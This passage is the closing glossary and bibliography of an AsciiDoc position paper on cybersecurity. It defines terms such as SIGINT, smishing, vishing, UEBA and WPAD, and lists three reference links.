SIGINT:: Signals Intelligence is the act of gathering information in transit by interception.
Smishing:: Phishing through SMS
TTP:: Techniques, Tactics, Procedures
UEBA:: User Entity Behaviorial Analytics
Vishing:: Phishing through voice calls
WPAD:: Web Proxy Auto Discovery Protocol

<<<
[bibliography]
== References

. Writing Position Papers: http://www.studygs.net/wrtstr9.htm 
. Cover Page graphic: https://www.pinterest.com/pin/352758583290504850/ 
. What is Malware? https://www.avg.com/en/signal/what-is-malware



